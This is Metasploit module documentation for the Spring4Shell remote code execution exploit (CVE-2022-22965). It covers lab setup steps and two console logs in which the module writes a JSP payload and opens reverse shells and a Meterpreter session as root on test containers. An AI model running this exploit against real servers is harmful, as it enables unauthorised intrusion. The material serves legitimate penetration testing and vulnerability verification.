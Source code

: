 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
### HTTP_METHOD
HTTP method to use for checking and exploitation. If set to `Automatic` (the default value), the method will be
automatically identified. Automatically identifying the HTTP method uses the check method.

### PAYLOAD_PATH
Path to write the payload. This is relative to the tomcat installation directory.

## Scenarios

### Target Java (vulhub container)

The target is the [vulhub container](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965) which uses the
GET HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell 
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options 

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                               yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD java/jsp_shell_reverse_tcp 
PAYLOAD => java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8080/

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: GET
[*] 192.168.159.128:8080 - Generating JSP...
[*] 192.168.159.128:8080 - Modifying Class Loader...
[*] 192.168.159.128:8080 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8080 - Executing JSP payload at http://192.168.159.128:8080/MUpts6425.jsp
[+] 192.168.159.128:8080 - Log file flushed
[*] Command shell session 1 opened (192.168.250.134:4444 -> 172.19.0.2:47418 ) at 2022-05-05 10:47:50 -0400

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/local/tomcat
```

### Target Linux (x64)

The target is the [vleminator container](https://github.com/vleminator/Spring4Shell-POC) which uses the
POST HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set TARGET Linux 
TARGET => Linux
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options 

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /app/example/HelloWorld.action  yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8085/helloworld/greeting

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: POST
[*] 192.168.159.128:8085 - Generating JSP...
[*] 192.168.159.128:8085 - Modifying Class Loader...
[*] 192.168.159.128:8085 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8085 - Executing JSP payload at http://192.168.159.128:8085/S0J17.jsp
[+] 192.168.159.128:8085 - Log file flushed
[*] Sending stage (3020772 bytes) to 172.17.0.2
[+] Deleted /tmp/6DKA
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:54902 ) at 2022-05-05 10:52:35 -0400

meterpreter > getuid
Server username: root
meterpreter > pwd
/helloworld
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.2 (Linux 5.17.4-100.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
